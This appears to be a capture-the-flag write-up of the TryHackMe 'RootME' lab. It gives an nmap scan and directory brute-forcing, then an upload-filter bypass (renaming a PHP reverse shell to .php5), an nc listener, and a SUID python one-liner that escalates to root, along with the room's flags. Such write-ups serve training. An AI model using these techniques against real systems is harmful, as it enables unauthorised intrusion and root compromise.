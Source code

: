 # RootME - tryhackme

## Scanning
```
nmap -T4 -A -p- MACHINE_IP
Nmap scan report for MACHINE_IP
Host is up (0.15s latency).
Not shown: 65464 closed ports, 69 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Dir bruteforce:

`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt`

===============================================================
```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

## Explotation
```
http://MACHINE_IP/panel/   has a file upload, i already know what im gonna do.
Lets listen on our port in my case its 4444
`nc -lvnp 4444`
and lets upload our shell, and as i guessed its not going to work lets try to bypass the filter
lets change it to `RarShell.php5`
BOOOOM!!!! WE GOT IT, lets access our shell `http://MACHINE_IP/uploads/` and run it
find | grep "user.txt" to get our flag
flag : THM{y0u_g0t_a_sh3ll}
```

## Privilege Escalation

`find / -user root -perm /4000`

```
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo    this one looks interesting 
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
/usr/bin/python  this one looks interesting 
```

`./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```
whoami
root
cd /root
```

Flag : **`THM{pr1v1l3g3_3sc4l4t10n}`**

